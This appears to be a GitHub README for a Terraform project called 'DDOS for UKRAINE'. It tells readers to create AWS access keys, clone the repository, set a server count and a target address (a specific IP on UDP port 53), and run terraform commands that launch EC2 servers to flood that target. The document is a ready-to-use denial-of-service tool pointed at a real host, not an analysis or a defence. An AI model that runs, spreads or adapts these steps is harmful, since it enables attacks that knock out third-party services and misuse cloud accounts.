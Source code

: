 # DDOS for UKRAINE

### For usage need

- **AWS account**
- **Terraform**

### Usage:

- Create in **IAM AWS** access and secret key with **EC2** access
- Install Terraform on your machine (https://learn.hashicorp.com/tutorials/terraform/install-cli)
- Clone repo
    - ```git clone https://github.com/nlemeshko/forukraine```
    - ```cd forukraine```
- Create file **keys.tfvars** and put some variables

- ```servers = 1``` - **How many servers need to create**
- ```access = ""``` - **Your access_key**
- ```secret = ""``` - **Your secret key**
- ```address = "194.67.14.186:53/UDP"``` - **address which need to DDoS**

- **run commands in terminal**:
    - ```terraform init```
    - ```terraform apply -var-file keys.tfvars -auto-approve```

## License
***Nicky Lemeshko*** [©mdsn](https://mdsn.tk) **2022**